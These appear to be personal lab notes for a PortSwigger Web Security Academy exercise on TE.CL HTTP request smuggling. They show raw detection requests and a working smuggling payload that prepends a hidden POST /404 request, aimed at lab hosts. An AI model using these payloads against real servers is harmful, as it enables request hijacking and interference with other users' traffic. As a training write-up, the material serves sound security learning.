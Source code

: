 [LAB](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses)
[Explained](https://www.youtube.com/watch?v=QaouEvhHefk&list=PLGb2cDlBWRUX1_7RAIjRkZDYgAB3VbUSw&index=5&ab_channel=JarnoTimmermans)

# Detection

```HTTP
POST / HTTP/1.1
Host: 0a69001803897d838055679c005a007c.web-security-academy.net
Content-Length: 11
Transfer-Encoding: chunked

3
abc
X

```

![](../../../Attachments/Pasted%20image%2020250818175935.png)
Got Invalid Request, which indicates that frontend doesn't use Content-Length header, and "X" is an invalid chunk size:

![](../../../Attachments/Req%20Smug/Invalid%20Chunk%20SIze.png)

Checking for TE.CL with the second request from methodology
```
POST / HTTP/1.1
Host: 0a69001803897d838055679c005a007c.web-security-academy.net
Content-Length: 6
Transfer-Encoding: chunked

0

X
```
Got **Backend Timeout with 500 Internal Server Error**

![](../../../Attachments/Req%20Smug/Pasted%20image%2020250818180347.png)


# Usage of Differential Responses:

Explained:

![](../../../Attachments/Req%20Smug/Confirmation%20Diffential%20Responses%20TE%20CL.png)

# Crafting the request
Adjusting the Content-Length of the smuggles request, to the minimum to append to the next request:
![](../../../Attachments/Req%20Smug/Pasted%20image%2020250818183436.png)


Adjusting the chunk size to correspond to the 404 request until its body (excluding last non-printable):

![](../../../Attachments/Req%20Smug/Pasted%20image%2020250818184053.png)

Adjusting first Content-Length to include only chunked size and following non-printable chars:

![](../../../Attachments/Req%20Smug/Pasted%20image%2020250818184628.png)


# Exploiting

```HTTP
POST / HTTP/1.1
Host: 0a7700a1047a045e82821b9f0067000c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

9f
POST /404 HTTP/1.1
Host: 0a7700a1047a045e82821b9f0067000c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

x=1
0


```
Got the **200 OK** and immediately send the normal request which responded with a **404 Not Found**
